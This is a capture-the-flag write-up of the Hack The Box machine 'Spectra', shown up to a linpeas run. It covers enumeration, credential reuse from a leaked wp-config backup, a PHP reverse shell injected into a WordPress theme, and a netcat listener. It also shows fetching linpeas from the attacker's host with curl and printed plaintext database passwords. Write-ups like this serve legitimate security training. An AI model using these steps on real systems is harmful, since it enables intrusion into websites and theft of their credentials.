





# htb-spectra

10.10.10.229

## Enumeration with nmap
```
┌──(kali㉿kali)-[~]
└─$ nmap -A 10.10.10.229
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-19 08:59 EDT
Nmap scan report for 10.10.10.229
Host is up (0.047s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.10 seconds
```

http port and mysql port

## Check website 10.10.10.229:80


References to spectra.htb and www.spectra.htb found, virtual servers in the reverse proxy:
- http://spectra.htb/main/
- http://www.spectra.htb/testing/index.php

## Add spectra.htb to /etc/hosts
```
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.229    spectra.htb
10.10.10.229    www.spectra.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

## Gobuster

```
┌──(kali㉿kali)-[~/gobuster-linux-amd64]
└─$ gobuster dir --wordlist SecLists/Discovery/Web-Content/common.txt --url http://spectra.htb
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://spectra.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/19 09:32:50 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 283]
/main                 (Status: 301) [Size: 169] [--> http://spectra.htb/main/]
/testing              (Status: 301) [Size: 169] [--> http://spectra.htb/testing/]
                                                                                 
===============================================================
2021/03/19 09:33:12 Finished
===============================================================
                                                                                                                                                       
┌──(kali㉿kali)-[~/gobuster-linux-amd64]
└─$ gobuster dir --wordlist SecLists/Discovery/Web-Content/common.txt --url http://spectra.htb/main            1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://spectra.htb/main
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/19 09:33:40 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 301) [Size: 0] [--> http://spectra.htb/main/]
/wp-admin             (Status: 301) [Size: 169] [--> http://spectra.htb/main/wp-admin/]
/wp-content           (Status: 301) [Size: 169] [--> http://spectra.htb/main/wp-content/]
/wp-includes          (Status: 301) [Size: 169] [--> http://spectra.htb/main/wp-includes/]
/xmlrpc.php           (Status: 405) [Size: 42]                                            
                                                                                          
===============================================================
2021/03/19 09:34:03 Finished
===============================================================
                                                                                                                   
┌──(kali㉿kali)-[~/gobuster-linux-amd64]
└─$ gobuster dir --wordlist SecLists/Discovery/Web-Content/common.txt --url http://spectra.htb/testing
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://spectra.htb/testing
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/19 09:34:49 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 500) [Size: 2646]
/wp-admin             (Status: 301) [Size: 169] [--> http://spectra.htb/testing/wp-admin/]
/wp-includes          (Status: 301) [Size: 169] [--> http://spectra.htb/testing/wp-includes/]
/wp-content           (Status: 301) [Size: 169] [--> http://spectra.htb/testing/wp-content/] 
/xmlrpc.php           (Status: 200) [Size: 0]                                                
                                                                                             
===============================================================
2021/03/19 09:35:12 Finished
===============================================================

```

Nah... 

interesting stuff in /testing



all checked... creds dumped in wp-config.php.save, lets view source:




## Connect to database
It seems like we only can connect to MySQL server from localhost:
```
┌──(kali㉿kali)-[~/Downloads]
└─$ mysql --host 10.10.10.229 --user devtest --password devteam01 -D dev                                        1 ⨯
Enter password: 
ERROR 1130 (HY000): Host '10.10.14.67' is not allowed to connect to this MySQL server

```

## Try login with administrator / devteam01
administrator its an user that we can see in the posts in web portal:



Wordpress 5.4.2 version

Administrator with email: devteam@megabank.local


## Reverse shell
Once we have access to the administrator panel we can create a reverse shell, for this:

- Download a PHP reverse shell code: http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

- Inject code, for example in a theme:

https://www.hackingarticles.in/wordpress-reverse-shell/
https://rioasmara.com/2019/02/25/penetration-test-wordpress-reverse-shell/

- Listen:
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 7777
listening on [any] 7777 ...
```

- Go to .php edited:
http://spectra.htb/main/wp-content/themes/twentyseventeen/404.php

- Reverse shell established:
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 7777
listening on [any] 7777 ...
connect to [10.10.14.67] from (UNKNOWN) [10.10.10.229] 37258
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
 10:01:15 up 14 min,  0 users,  load average: 0.05, 0.12, 0.20
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```

We have to access to katie user:
```
$ cd ..
$ ls -la
total 32
drwxr-xr-x  8 root    root    4096 Feb  2 15:55 .
drwxr-xr-x 22 root    root    4096 Feb  2 14:52 ..
drwx------  4 root    root    4096 Jul 20  2020 .shadow
drwxr-xr-x 20 chronos chronos 4096 Mar 19 09:49 chronos
drwxr-xr-x  4 katie   katie   4096 Feb 10 00:38 katie
drwxr-xr-x  5 nginx   nginx   4096 Feb  4 12:41 nginx
drwxr-x--t  4 root    root    4096 Jul 20  2020 root
drwxr-xr-x  4 root    root    4096 Jul 20  2020 user
$ pwd
/home
$ ls -la
total 32
drwxr-xr-x  8 root    root    4096 Feb  2 15:55 .
drwxr-xr-x 22 root    root    4096 Feb  2 14:52 ..
drwx------  4 root    root    4096 Jul 20  2020 .shadow
drwxr-xr-x 20 chronos chronos 4096 Mar 19 09:49 chronos
drwxr-xr-x  4 katie   katie   4096 Feb 10 00:38 katie
drwxr-xr-x  5 nginx   nginx   4096 Feb  4 12:41 nginx
drwxr-x--t  4 root    root    4096 Jul 20  2020 root
drwxr-xr-x  4 root    root    4096 Jul 20  2020 user
$ ls katie
log
user.txt

```

Lets play with linpeas:
```
┌──(kali㉿kali)-[~/htb-spectra/files]
└─$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...

```

```
$ curl -XGET http://10.10.14.67:8000/linpeas.sh -o linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  317k  100  317k    0     0   944k      0 --:--:-- --:--:-- --:--:--  944k
$ ls -la
total 352
drwxr-xr-x 5 nginx nginx   4096 Mar 19 10:16 .
drwxr-xr-x 8 root  root    4096 Feb  2 15:55 ..
lrwxrwxrwx 1 root  root       9 Feb  4 12:41 .bash_history -> /dev/null
-rw-r--r-- 1 nginx nginx    127 Dec 22 05:46 .bash_logout
-rw-r--r-- 1 nginx nginx    204 Dec 22 05:46 .bash_profile
-rw-r--r-- 1 nginx nginx    551 Dec 22 05:46 .bashrc
drwx------ 3 nginx nginx   4096 Jan 15 15:55 .pki
drwx------ 2 nginx nginx   4096 Jan 15 15:53 .ssh
-rwxrwxrwx 1 nginx nginx 325018 Mar 19 10:16 linpeas.sh
drwxr-xr-x 2 nginx nginx   4096 Jan 15 15:55 log
$ ./linpeas.sh
/bin/sh: 96: ./linpeas.sh: Permission denied
$ bash linpeas.sh
```

Linpeas output:
```
[+] Searching Wordpress wp-config.php files
/usr/local/share/nginx/html/main/wp-config.php                                                                                                                                                                                               
define( 'DB_NAME', 'dev' );
define( 'DB_USER', 'dev' );
define( 'DB_PASSWORD', 'development01' );
define( 'DB_HOST', 'localhost' );

/usr/local/share/nginx/html/testing/wp-config.php
define( 'DB_NAME', 'dev' );
define( 'DB_USER', 'devtest' );
define( 'DB_PASSWORD', 'devteam01' );
define( 'DB_HOST', 'localhost' );

/mnt/stateful_partition/dev_image/share/nginx/html/main/wp-config.php
define( 'DB_NAME', 'dev' );
define( 'DB_USER', 'dev' );
define( 'DB_PASSWORD', 'development01' );
define( 'DB_HOST', 'localhost' );

/mnt/stateful_partition/dev_image/share/nginx/html/testing/wp-config.php
define( 'DB_NAME', 'dev' );
define( 'DB_USER', 'devtest' );
define( 'DB_PASSWORD', 'devteam01' );
define( 'DB_HOST', 'localhost' );

```